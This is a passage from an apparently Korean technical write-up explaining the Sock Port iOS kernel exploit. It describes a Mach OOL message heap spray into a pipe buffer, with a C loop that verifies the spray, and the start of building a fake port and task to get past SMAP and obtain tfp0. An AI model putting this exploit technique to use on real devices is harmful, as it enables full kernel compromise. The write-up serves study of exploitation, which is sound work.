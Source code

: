 다음으로 Mach OOL Message를 스프레이한다.

합법적이고 제어 가능한 `ipc_port`를 얻기 위해 Mach OOL(Message) 메시지를 이용한 힙 스프레이를 수행하는데, 이때 `remote port`를 반드시 기록해두어야 한다.

이는 이후 메시지를 수신할 때 우리가 교체한 포트의 핸들을 다시 획득해야 하기 때문이다.

여기서는 Pipe 버퍼와 동일한 크기(0x10000)의 메시지를 사용하여, 포트 주소가 Pipe 버퍼에 정확히 채워지도록 만든다.

그렇다면 우리가 스프레이하는데 성공했는지 어떻게 확인할 수 있을까?
우선 사용한 target port의 주소를 구한 뒤, Pipe 버퍼에서 8바이트를 읽어오면 된다. (이전에 8바이트를 미리 써두었기 때문에, 여기서 읽히는 값은 첫 번째 포트의 주소일 것이다.)

만약 스프레이하는데 성공했다면, target port 주소와 Pipe 버퍼에서 읽어온 주소는 일치해야 한다.

```c
// create a new port, this one we'll use for tfp0
    mach_port_t target = new_port();

// reallocate it while filling it with a mach message containing send rights to our target port
    mach_port_t p = MACH_PORT_NULL;
    for (int i = 0; i < 10000; i++) {
        
        // pipe is 0x10000 bytes so make 0x10000/8 pointers and save result as we'll use later
        p = fill_kalloc_with_port_pointer(target, 0x10000/8, MACH_MSG_TYPE_COPY_SEND);
        
        // check if spraying worked by reading first 8 bytes
        uint64_t addr;
        read(pipefds[0], &addr, 8);
        if (addr == target_addr) { // if we see the address of our port, it worked
            break;
        }
        write(pipefds[1], &addr, 8); // reset buffer position
        
        mach_port_destroy(mach_task_self(), p); // spraying didn't work, so free port
        p = MACH_PORT_NULL;
    }
```

### fake port 및 fake task 셋업하기

앞서 Pipe Buffer에 채워 넣은 것은 여전히 사용자 모드의 포트일 뿐이며, `tfp0` 권한이 없다. 
우리는 이 포트를 변조하여 `tfp0` 권한을 얻어야 한다.

하지만 SMAP의 존재로 인해, 우리가 위조한(fake) 포트와 fake task는 커널에서 정상적으로 접근되기 위해 반드시 pipe를 통해 커널 내로 복사되어야 한다. 따라서 새로운 pipe를 하나 더 생성한다.

Sock Port 익스플로잇의 소스코드를 보면 이 부분이 매우 정교하게 구성되어 있는데, 커널 내에 포트와 태스크 구조체를 담을 수 있는 연속된 영역을 할당하고, `port->task`가 그 바로 옆의 task 영역을 가리키도록 설정한다. 

SMAP 환경에서는 커널이 참조하는 주소가 userland에 속하면 안 되기 때문에 
`task`는 Pipe 버퍼 내의 공간을 가리키도록 만든다.

이렇게 하면 하나의 연속된 영역으로 포트와 태스크를 동시에 제어할 수 있게 되고, SMAP도 우회할 수 있다.

핵심 코드는 다음과 같다.
